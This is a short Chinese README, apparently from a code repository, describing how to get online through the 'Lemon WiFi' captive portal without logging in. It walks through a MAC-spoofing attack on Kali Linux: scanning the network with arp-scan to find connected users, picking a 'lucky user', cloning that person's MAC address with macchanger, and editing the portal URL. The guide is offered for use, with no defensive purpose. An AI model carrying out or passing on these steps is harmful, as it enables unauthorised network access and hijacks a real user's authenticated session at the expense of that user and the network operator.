 # 目录说明
免登录使用柠檬wifi上网

# 原理
通过修改mac地址,使用已登录用户的mac地址,实现上网  

# 准备工作
 - 需要已有用户正在上网
 - 需要linux和支持修改mac地址的网卡(笔记本网卡一般都支持)

 # 开始(以[kali linux](https://www.kali.org/)为例)
 - 正常连接柠檬wifi  
 - 打开浏览器,任意访问一个网址,跳转到认证界面
    ![image](./media/chrome1.png)
 - 获取设备网卡信息 `sudo iwconfig`  
    ![image](./media/iwconfig.png)  
    得到 `wlan0` (后文wlan0改成自己的无线网卡) 
 - 获取已连接用户的mac地址 `sudo arp-scan -l --interface=wlan0` 
    ![image](./media/arp-scan.png)
    这里我们任选一个幸运用户 `30:a2:c2:4a:df:47`
 - 设置本机网卡mac地址为幸运儿的  
    1. 停用`wlan0`网卡 `sudo ifconfig wlan0 down`  
    2. 修改`wlan0`的mac地址为`30:a2:c2:4a:df:47` `sudo macchanger -m 30:a2:c2:4a:df:47 wlan0`  
    3. 启用`wlan0`网卡 `sudo ifconfig wlan0 up`  
    4. 查看当前`wlan0`网卡的mac地址 `sudo macchanger -s wlan0`  

    ![image](./media/macchanger.png)
 - 回到柠檬wifi认证界面,把设备mac地址部分改成幸运儿的,按回车  
    即使仍然提示需要登录,事实上已经可以正常上网了.
    ![image](./media/chrome2.png)  